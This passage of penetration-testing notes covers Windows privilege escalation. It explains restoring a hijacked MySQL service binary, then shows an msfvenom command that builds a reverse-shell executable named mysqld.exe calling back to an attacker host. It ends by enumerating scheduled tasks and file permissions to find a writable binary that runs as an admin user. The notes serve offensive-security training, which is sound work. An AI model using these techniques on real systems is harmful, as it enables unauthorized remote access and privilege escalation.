 {% tab title="4. Reboot" %}
```powershell
# 'r' -> reboot, 't 0' -> in zero seconds
> shutdown /r /t 0 
```
{% endtab %}
{% endtabs %}

> _To restore the original state of the service, we have to delete our binary `mysqld.exe`, restore the backed up original binary, and restart the system._

We can also get a reverse shell by replacing the binary with the following.

{% code overflow="wrap" %}
```bash
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.231 LPORT=4444 -f exe > mysqld.exe
```
{% endcode %}

### Scheduled Tasks

Windows uses **Task Scheduler** to run automated jobs, known as **Scheduled Tasks**, based on defined triggers (e.g., at startup, login, or a specific time). Each task has one or more actions—scripts or programs to execute—configured under its properties. For privilege escalation, the focus is on three key details:

1. **User context:** Does the task run as `SYSTEM` or an `administrator`?
2. **Triggers:** When does it run? Is the condition re-usable within the testing window?
3. **Actions:** What program or script runs?

{% tabs %}
{% tab title="1. List Tasks" %}
{% code overflow="wrap" %}
```powershell
# /fo LIST -> format as list, /v -> display all properties (verbose)
> schtasks /query /fo LIST /v

HostName:                             CLIENTWK220
TaskName:                             \Microsoft\CacheCleanup
Next Run Time:                        4/7/2025 12:09:21 AM
Status:                               Ready
Logon Mode:                           Interactive/Background
Author:                               CLIENTWK220\daveadmin
Task To Run:                      C:\Users\steve\Pictures\BackendCacheCleanup.exe # Target binary
Start In:                             C:\Users\steve\Pictures
Scheduled Task State:                 Enabled
Run As User:                          daveadmin # Target user
Schedule Type:                        One Time Only, Minute
Start Time:                           7:37:21 AM
Start Date:                           7/4/2022
Repeat: Every:                        0 Hour(s), 1 Minute(s) # Runs every minute

# Alternative
> Get-ScheduledTask

# Check the binary's persmissions
> icacls BackendCacheCleanup.exe
BackendCacheCleanup.exe NT AUTHORITY\SYSTEM:(I)(F)
                        BUILTIN\Administrators:(I)(F)
                        CLIENTWK220\steve:(I)(F)
```
{% endcode %}
{% endtab %}
